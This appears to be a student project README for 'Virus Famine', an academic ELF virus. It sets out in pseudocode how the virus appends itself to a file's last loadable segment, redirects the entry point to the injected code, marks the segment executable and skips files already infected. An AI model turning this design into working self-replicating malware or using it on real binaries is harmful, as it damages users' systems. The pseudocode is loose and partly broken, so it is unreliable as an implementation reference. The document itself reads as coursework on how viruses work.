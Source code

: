# Virus Famine

This virus is coded only for academic purposes, and is:

 - Inoffensif, as it only add an infection routine
 - Easily detectable by modern technics

# Pseudocode

## Main

First function called
easily changeable directory of interest

```c
void	main()
{
	start_virus = %rip;
	char **dir_path = "./test";

	infect_dir(dir_path, save_rip);
	bonus_function();
}
```

## infect dir

Need to manage errors of open and mmap

```c
void	infect_dir(char *dir_path, void *start_virus)
{
	dir = open_dir(dir_path);

	for file in dir:
		mem_file, file_size = mmap(file);
		if (NULL != (mem_file = infect_file(mem_file, file_size, start_virus)));
			save(file);
	return ;
}
```

## infect_file

the maestro function

```c
uint8_t	infect_file(void *file, size_t file_size, void *start_virus)
{
	// Check if file is good, and find last loadable segment
	elfphdr *phdr = find_phdr(file, file_size);
	if (phdr == NULL)
		return NULL;
	// Check if file already taken care of
	if (check_if_not_infected(start_virus, phdr + phdr->offset - VIRUS_SIZE))
		return NULL;
	// Extend file size if necessary
	file = extend_memory(file, file_size, phdr, VIRUS_SIZE);
	if (file == NULL)
		return NULL;
	// Find again the phdr
	elfphdr *phdr = find_phdr(file, file_size);
	// Inject self in file
	spot = file + (phdr->offset + phdr->size);
	memcopy(spot, start_virus, VIRUS_SIZE);
	file->e_entry = spot;
	phdr->rights += EXECUTE;
	phdr->size += VIRUS_SIZE;
	return file;
}
```

## find_phdr

Find the phdr corresponding to the segment of injection

```c
elfphdr	*find_phdr(void *file, size_t file_size)
{
	if (BAD == (MAGIC_NB || ENDIAN || 64bits))
		return NULL;
	if (PHDR_ARRAY_END < ENOUGH_SPACE)
		return NULL;
	for phdr in phdr_array:
		if last_loadable:
			best_phdr = phdr;
	return best_phdr;
}
```

## Checking if already infected

1st idea, might not be the right way

```c
uint8_t	check_if_not_infected(uint8_t *cave_self, unit8_t *cave_new)
{
	count = 0;
	for i in range(VIRUS_SIZE):
		if cave_self[i] == cave_new[i]:
			count += 1;
	if ((float)count / (float)VIRUS_SIZE > 0.9)
		return TRUE;
	return FALSE;
}
```

## Extend memory

Carefull on overflow

```c
void *extend_memory(file, file_size, phdr, VIRUS_SIZE)
{

	int space_available = file_size - (phdr->offset + phdr->size);
	int space_missing = space_available - VIRUS_SIZE;
	if space_missing < 0:
		new_file = mmap(space_missing);
		memcopy(new_file, file, file_size);
	return new_file;
}
```

## Bonus

```c
void bonus_function()
{
	whatever we want;
	will be nice to connect to a server to say hello;
	will be nice to change background image;
	will be nice to print in terminal an ascii pic of a cute kitten;
}
```
